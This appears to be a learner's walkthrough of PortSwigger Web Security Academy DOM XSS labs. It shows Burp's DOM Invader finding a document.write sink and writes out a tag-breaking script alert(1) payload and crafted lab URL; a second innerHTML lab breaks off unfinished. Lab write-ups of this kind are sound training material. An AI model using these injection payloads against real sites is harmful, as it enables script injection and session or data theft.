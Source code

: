 ```bash
Open developer tools:

Ctrl+Shift+i

Click "DOM Invader"
On site:
Click "View details"
In developer tools:
Source (2) should now be visible
Click "Source (2)"
Note the "check" canary is placed into the "storeId" parameter and now shows up on the website in the drop-down menu for "Check stock"
Note the "document.write" sink

<option selected>checkcrf12</option>

Will change too:

<option selected></option><script>alert(1)</script>crf12</option>

Change:

https://ac681f951ea5b974c0ac3796006b000d.web-security-academy.net/product?productId=1

To

https://ac681f951ea5b974c0ac3796006b000d.web-security-academy.net/product?productId=1&storeId=</option><script>alert(1)</script>

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220520232116.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220520232923.png)

### DOM XSS in innerHTML sink using source location.search
```bash

# This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

# To solve this lab, perform a cross-site scripting attack that calls the alert function.

"The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements."

Disclaimer: Go on Burp Suite Chromium built in browser to utilize the DOM invader
Go to: Extensions
Pin the Burp Suite icon to the taskbar
Dom invader is on: On
Inject canary into all sources is on: On
Input "check"
Update canary
Reload
Open developer tools:

Ctrl+Shift+i

Click "DOM Invader"
On site:
Enter into search: "123456"
```